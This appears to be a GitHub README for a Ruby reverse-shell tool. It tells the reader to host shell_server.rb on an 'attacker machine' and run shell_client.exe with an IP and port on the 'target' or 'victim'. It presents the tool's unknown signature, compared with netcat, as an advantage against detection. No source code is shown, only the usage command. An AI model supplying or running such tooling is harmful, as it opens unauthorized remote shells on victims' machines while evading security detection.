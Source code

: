 # Ruby Reverse Shell



## Requirements:

**[o] Server that receives the reverse shell must have ruby installed, they victim doesn't**

**[o] You might need to recompile the exe, depending on your architecture.**

<br>
These are scripts/exes that can be used as a better reverse shell. It's a basic reverse shell. Same would be possible using netcat. The advantage is that this program has a unique signature while netcat's exe is known.

<br>
<br>

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
